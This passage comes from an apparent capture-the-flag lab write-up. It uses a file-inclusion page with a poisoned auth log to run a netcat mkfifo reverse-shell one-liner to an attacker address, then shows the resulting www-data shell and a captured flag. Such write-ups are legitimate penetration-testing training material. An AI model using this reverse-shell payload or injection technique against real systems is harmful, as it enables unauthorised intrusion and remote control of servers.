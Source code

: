 ![2](screenshots/2.png)

Time for a reverse shell:

```bash
$ curl -s -G http://192.168.196.80/console/file.php --data-urlencode 'file=/var/log/auth.log' --data-urlencode 'c=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.5 443 >/tmp/f'
```

I catch the shell as www-data:

```bash
www-data@ubuntu:/var/www$ ls -la
total 16
drwxr-xr-x  3 www-data www-data 4096 Aug 18  2020 .
drwxr-xr-x 12 root     root     4096 Jun  3  2020 ..
drwxrwxrwx  4 www-data www-data 4096 Jun  3  2020 html
-rw-r--r--  1 www-data www-data   33 Mar 13 14:16 local.txt
www-data@ubuntu:/var/www$ whoami
www-data
www-data@ubuntu:/var/www$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www$ hostname
ubuntu
www-data@ubuntu:/var/www$ hostname -I
192.168.196.80
www-data@ubuntu:/var/www$ cat local.txt
81ab3b3cb971eab5608b112fb330117d
```
